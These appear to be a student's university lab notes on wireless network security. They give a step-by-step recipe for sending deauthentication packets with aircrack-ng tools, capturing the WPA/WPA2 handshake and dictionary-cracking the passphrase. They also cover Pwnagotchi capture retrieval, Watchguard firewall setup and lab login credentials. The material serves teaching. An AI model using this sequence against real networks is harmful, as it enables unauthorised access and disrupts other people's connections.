 # Lab 01 - Wireless and Mobile Networks

- Interrupt connection between access point and mobile device, capture reconnect to crack password
- Used captured network traffic from Riccarton Mall and crack authentication dialogues

## WLAN Attack Taxonomy

Passive attacks:

- Traffic analysis
  - Packet size, type, fragmentation info etc.
  - APs periodically send out beacon frames
- Eavesdropping
  - Requires wireless cards with passive packet sniffing (and active packet injection for active attacks)

Active attacks:
- Unauthorized access
  - Masquerade as a legitimate user
  - Access to wireless components may give access to wired components
- Rogue access points (Evil-Twin attack)
  - Interrupt connection, then device automatically reconnects to strongest matching AP
- Man-in-the-middle attacks
  - ARP spoofing - spoof MAC of access point and victim to force all traffic to pass through attacker
- Session hijacking
  - Spoof MAC and force disconnect - in some architectures re-authentication not required
- Replay
  - Capture authentication packets, replay then later
- Denial of Service
  - Attacks against layer 1 (physical) or 2 (data link) cannot be stopped
  - NZ stock exchange attack: attacked DNS server

PSK (pre-shared key) used in labs: each node has string/passphrase that is combined with network SSID to generate unique encryption key for each client (Temporal TODO)

## Tools

Several tools available pre-installed in Kali-Linux

 - `airmon-ng`: set wireless adapter to monitor mode to sniff packets meant for other devices
 - `kismet`: wireless network detector, packet sniffer
 - `iwconfig`: check wireless adapter is in monitor mode
 - `airodump-ng`: capture packets and display access point properties (ethernet address, channel number, speed, etc.)
 - `aireplay-ng`: issue deauthentication packets and capture the automatic reconnection dialogue
 - `aircrack-ng`: decrypting keys captured by `aireplay-ng`
 - `airbase-ng`: establishing access point for evil-twin attack
 - `macchanger`: view/spoof MAC address

('ng' stands for 'next generation' - basically version 2)

Login:

- `cyberlab`: `$CyberLab!`
- `root`: `toor`

## WPA/WPA2 Password Cracking

- Kill DHCP server: `ps-eaf | grep dhc` then `kill -9 {process_id}`
- `iwconfig` to find interface name
- `airodump-ng {wireless_interface}`; scan for networks, determine channel number and MAC address (BSSID - *b*asic **s**ervice **s**et **id**entifier) of target AP
- `airmon-ng stop {wireless_interface}`
- `airmon-ng start {wireless_interface} {channel_number}` to enable monitor mode for a specific channel
- `iwconfig` to find the new monitoring network interface's name
- `airodump-ng -c {ap_channel} --bssid {ap_mac} -w {capture_file_path} {wireless_interface}`
  - Continue running the command
  - `BSSID` is the AP MAC, `STATION` is the victim's MAC
- `aireplay-ng -0 1 -a {ap_mac} -c {vicim_mac} {wireless_interface}`
  - Send 1 deauthentication packet (`-0 1` is short for `--deauth=1`)
    - The device will then automatically reconnect. `airodump-ng` will be able to capture the four-way handshake
      - PSK (pre-shared key) derived from passphrase. Both parties need to prove they hold the key without sending it over the wire
- (Optional) To see it working, go to Wireshark, select correct interface (Capture -> Options), filter using `eapol` (extensible authentication protocol over link layer)
- `aircrack-ng -w {path_to_dictionary} -b {victim_mac} {capture_file_path}`
  - Unzip gzip files: `gunzip {path}`
  - Cracks captured password

### Pwnagotchi

- Connect via USB
- `ifconfig -a`: ensure usb0 is being used as networking device
- `ifconfig usb0 10.0.0.1/24`: set IP of device
- `scp -r pi@10.0.0.2:/root/handshakes ~/handshakes`: copy files from Pwnagotchi to computer
  - Pwnagotchi contains PCAP files with format `{SSID name}_{BSSID}.pcap`

## Enterprise Security

- External interface: network that presents the security threat
- Trusted interface: private LAN/internal interface
- Optional interface: DMZ/mixed trust area. APs go here

Watchguard:

- All-in-one firewall + switch + wireless AP
- IP address of the Watchguard device: default gateway
- Add HTTP packet filter
  - Basically port filter: only allows tcp traffic in port 80
  - HTTP proxy allows packet contents to be inspected
  - Allow traffic From Any-Optional To Any-Trusted
    - *Initial* connection must be from outside to inside
- Set up wireless interface
  - Note IP and CIDR of interface 2
  - Create new bridge with IP and CIDR from above, optional security zone and DHCP enabled
  - Set interface 2 to bridge type, set bridge to the one made above
  - Enable wireless AP in bridge mode (using bridge from above)
  - At this point devices should be able to connect to the AP, and the firewall rule allows HTTP traffic from device to server connected to any trusted network
  - WPA2 Enterprise: can either set wireless network to use Firebox DB or RADIUS server (e.g. Active Directory) for authentication

## Write-up

- Explain importance of software security, brief example of experiments done in labs
- Own diagrams - no copying off internet/lab notes, or scans of hand-drawn diagrams
- References to supplement writing
- Observations: potential risks, areas of interest
- Some research and comments

Structure:

- Title
- Author
- Abstract: purpose and findings
- Introduction:
  - Description of experiments, equipment, tools, techniques
  - Vulnerabilities demonstrated
  - Diagrams of equipment/system
- Experimental results:
  - Explanation of experiments, importance of results
  - A few screenshots and their explanations
  - Relate to cybersecurity disasters
- Conclusions: (in)adequacy of setup results
- Comments on prevalence of security issues in current systems, organizations
- References (optional)
